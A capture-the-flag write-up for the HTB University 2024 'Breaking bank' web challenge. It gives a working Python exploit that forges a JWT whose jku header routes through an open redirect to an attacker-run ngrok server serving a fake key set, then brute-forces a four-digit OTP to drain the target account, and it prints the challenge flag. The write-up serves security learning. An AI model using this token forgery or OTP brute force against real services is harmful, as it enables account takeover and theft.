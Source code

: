 ```yaml
---
title: HTB University 2024 Binary badlands
published: 2024-12-17
description: "Writeup for web category of HTB University 2024: Binary badlands"
image: "./cover.jpeg"
tags: ["2024"]
category: Web
draft: false
---
```


## Breaking bank
![Screenshot 2024-12-17 215158](https://github.com/user-attachments/assets/a5a9721a-4aa0-402a-9508-a9575ab9288b)

How to get flag: Steal all money in account ```financial-controller@frontier-board.htb```:
![Screenshot 2024-12-17 215407](https://github.com/user-attachments/assets/9990085f-8f7d-430b-bc2d-6a0052973489)
![Screenshot 2024-12-17 215641](https://github.com/user-attachments/assets/88e113c6-bd6c-4f18-945d-d5c7564edad4)

How to attack: Login in this account, then bypass otp to transper money.

Firstly, create a crendential with username: `fake@gmail.com` and password: `123`

![Screenshot 2024-12-17 220013](https://github.com/user-attachments/assets/6b6ac6f4-5f4e-4de7-bcbe-105bcb178895)

Time to steal money :v

In source code we have three hint:

- Hint 1:

![Screenshot 2024-12-17 220201](https://github.com/user-attachments/assets/2ca95f52-8b3d-4f20-b4d1-10789d0a15d9)
- Hint 2:

![Screenshot 2024-12-17 220228](https://github.com/user-attachments/assets/d173509e-9ee5-488e-b547-0bf09cccf382)
- Hint 3:

![Screenshot 2024-12-17 220252](https://github.com/user-attachments/assets/5e02e457-6262-4f5e-9458-6ada6f51d725)

### Hint 1:
![Screenshot 2024-12-17 220558](https://github.com/user-attachments/assets/cab68d4e-1728-40cb-97ea-d3511ab91c8b)

This is a redirect endpoint, what should i do with this...

### Hint 2:
![Screenshot 2024-12-17 221101](https://github.com/user-attachments/assets/eb1e7930-3d19-4bd0-b078-467e876c1974)

After asking many people,i have a conclusion that the vuln is JWKS Spoofing

Link: `https://0xdf.gitlab.io/2022/05/07/htb-unicode.html`

JWKS is JWT but use key to sign

In endpoint `/.well-known/jwks.json`, we have basic structure of jku.

![Screenshot 2024-12-17 222605](https://github.com/user-attachments/assets/0ab09ee7-eb90-4340-9987-25e21e842e30)

| Attribute    | Purpose                        |       
|--------------|--------------------------------|
|    `alg`     | Algorithm of jwt               |
| `   kty`     | Algorithm to create key        |
|    `use`     | Purpose of key, sig is signing |
|    `kid`     | Key identifier                 |
|    `n, e`     | Two component of RSA            |

:::important[Conclusion]
If jku change, the key of this will change.
:::

With that conclusion and this link above, i used chatgpt to create a python code to create key, make it become a web which is the same with `/.well-known/jwks.json`

:::note
Before run this code, change parameter `kid` in code with parameter `with` in endpoint `/.well-known/jwks.json`
:::

### Code exploit:

```python
import jwt
import json
import base64
from datetime import datetime
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from flask import Flask, jsonify

kid = "86147695-417b-46c7-85e7-1d71ef49562a"
redirect_url="https://8178-113-185-52-248.ngrok-free.app"
target_email="financial-controller@frontier-board.htb"

private_key = rsa.generate_private_key(public_exponent=65537, key_size=2048)
public_key = private_key.public_key()


private_key_pem = private_key.private_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PrivateFormat.PKCS8,
    encryption_algorithm=serialization.NoEncryption()
)
public_key_pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)


header = {
    "typ": "JWT",
    "kid": kid,
    "jku": f"http://127.0.0.1:1337/api/analytics/redirect?ref=cta-announcement&url={redirect_url}"
}

payload = {
    "email": target_email,
    "iat": int(datetime.now().timestamp())
}


jwt_token = jwt.encode(
    payload,
    private_key_pem,
    algorithm="RS256",
    headers=header
)


public_numbers = public_key.public_numbers()

def int_to_base64(num)
    return base64.urlsafe_b64encode(num.to_bytes((num.bit_length() + 7) // 8, 'big')).rstrip(b'=').decode()

key = {
    "kty": "RSA",
    "n": int_to_base64(public_numbers.n),
    "e": int_to_base64(public_numbers.e),
    "alg": "RS256",
    "use": "sig",
    "kid": kid
}
jwks = {"keys": [key]}

with open("private.pem", "w") as f:
    f.write(private_key_pem.decode())

with open("public.pem", "w") as f:
    f.write(public_key_pem.decode())

print("Generated JWT:")
print(jwt_token)

app = Flask(__name__)

@app.route('/', methods=['GET'])
def serve_jwks():
    return jsonify(jwks)

if __name__ == '__main__':
    print("Serving JWKS at http://127.0.0.1:5000/")
    app.run(host='0.0.0.0', port=5000)
```

Using ngrok with command `ngrok http 5000`

![Screenshot 2024-12-17 224527](https://github.com/user-attachments/assets/6e282cd1-68e9-411d-b8dd-596633efa68b)

After that, run the python code, and you will get a jwt:

![Screenshot 2024-12-17 224845](https://github.com/user-attachments/assets/5c5fe4d8-8717-48f5-83dc-5d66cc79655b)

In ngrok website: 

![Screenshot 2024-12-17 224949](https://github.com/user-attachments/assets/478cfe91-5d6a-4b22-ab63-70e7891ed545)

This is the fake key, now it time to check

![Screenshot 2024-12-17 225501](https://github.com/user-attachments/assets/b71f5cea-da54-41ec-834a-cf4ba7d01407)

It actually work!!!!

![Screenshot 2024-12-17 225628](https://github.com/user-attachments/assets/bdc737a1-64e3-4d11-9639-e9c997c5e078)

Refresh and

![Screenshot 2024-12-17 225735](https://github.com/user-attachments/assets/1b812d2f-e3dd-472a-a8f5-d828b609e7e8)

Bro why are you too rich 

Because this web only allow friends to transper money, we need to add fake nick as friend

![Screenshot 2024-12-17 225915](https://github.com/user-attachments/assets/d0f2bcfb-1418-4787-9969-16784598d85e)

Accept in fake nick

![Screenshot 2024-12-17 225957](https://github.com/user-attachments/assets/228e3e5e-daf7-4757-b925-fece74a81ae3)

Now we can transper money

![Screenshot 2024-12-17 230046](https://github.com/user-attachments/assets/1b0cc8d4-329c-4b08-9bec-6409a9a28d95)

Enter `available balance` value to drain his money 

![Screenshot 2024-12-17 230204](https://github.com/user-attachments/assets/49730133-c7b3-48f9-9f12-ff1518c11525)

Oh no OTP. I need to use burp suite

![Screenshot 2024-12-17 230319](https://github.com/user-attachments/assets/69e48e79-35f2-4748-bb62-2226451c4ec2)

How can bypass this now? It time to use hint number three

### Bypass otp

Chatgpt is too string :v.I used chatgpt to write a python code to create a file which contain a list from 0000 to 9999 

```python=
import json

numbers = [f'{i:04}' for i in range(10000)]

with open('numbers.txt', 'w') as f:
    json.dump(numbers, f)
```
Run this code, then enter the list to `otp` parameter:

![Screenshot 2024-12-17 230751](https://github.com/user-attachments/assets/85d07cd3-6831-4934-84b1-950de31e65b5)

Access api/dashboard and restart

![Screenshot 2024-12-17 230855](https://github.com/user-attachments/assets/839bd473-1d01-4e47-8da0-2c6ff8e376fe)


GG

### Flag: 
`
HTB{rugg3d_pu11ed_c0nqu3r3d_d14m0nd_h4nd5_b6128c123229cf8b3e0eb8c8b27a388c}
`
